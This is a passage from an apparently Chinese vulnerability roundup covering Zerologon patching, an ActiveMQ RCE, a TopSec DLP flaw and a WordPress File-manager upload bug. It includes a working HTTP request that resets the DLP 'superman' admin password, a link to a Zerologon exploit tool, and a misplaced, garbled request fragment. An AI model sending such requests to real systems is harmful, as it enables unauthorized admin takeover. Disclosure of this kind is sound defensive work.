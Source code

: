 1.  官方升级
    
    目前微软官方已针对受支持的产品版本发布了修复此漏洞的安全补丁，强烈建议受影响用户尽快安装补丁进行防护，官方下载链接：https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1472  
    
2.  其他防护措施
    
    在安装更新补丁后，还可通过部署域控制器 (DC) 强制模式以免受到该漏洞影响：
    

请参考官方文档进行配置《如何管理与 CVE-2020-1472 相关的 Netlogon 安全通道连接的更改》：https://support.microsoft.com/zh-cn/help/4557222/how-to-manage-the-changes-in-netlogon-secure-channel-connections-assoc

```
POST /Proxy HTTP/1.1
Accept: Accept: \*/\*

```

其他工具：https://github.com/dirkjanm/CVE-2020-1472

这里有小伙伴复现成功的截图  

  

  

  
‍

![](https://mmbiz.qpic.cn/mmbiz_png/Cnm7wITedqIQiaepOP13rOKcN7vNA8MY6tPcN6pBOkKR2B4NENd3ibrRIo5N2UXYGOux4Rq570zXxuaQMowxeNFQ/640?wx_fmt=png)

  

  

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC6KuYg7GdjHmJvggbicJmdtVQib23cyWgEwTMiapHjsbHDjsuBMXTmTZobrfqAbzswwxNwbTnJ7hzdLQ/640?wx_fmt=gif)

0x11 activemq 远程代码执行 0day

请参考：http://activemq.apache.org/security-advisories.data/CVE-2020-13920-announcement.txt  

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC6KuYg7GdjHmJvggbicJmdtVQib23cyWgEwTMiapHjsbHDjsuBMXTmTZobrfqAbzswwxNwbTnJ7hzdLQ/640?wx_fmt=gif)

0x12 天融信数据防泄漏系统越权修改管理员密码

需登录权限, 由于修改密码处未校验原密码, 且 /?module=auth\_user&action=mod\_edit\_pwd  

接口未授权访问, 造成直接修改任意用户密码。: 默认 superman 账户 uid 为 1。

```
POST /?module=auth\_user&action=mod\_edit\_pwd
Cookie: username=superman;
uid=1&pd=Newpasswd&mod\_pwd=1&dlp\_perm=1

```

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC6KuYg7GdjHmJvggbicJmdtVQib23cyWgEwTMiapHjsbHDjsuBMXTmTZobrfqAbzswwxNwbTnJ7hzdLQ/640?wx_fmt=gif)

0x13 Wordpress File-manager 任意文件上传

详情请参考安全客: https://www.anquanke.com/post/id/21699  
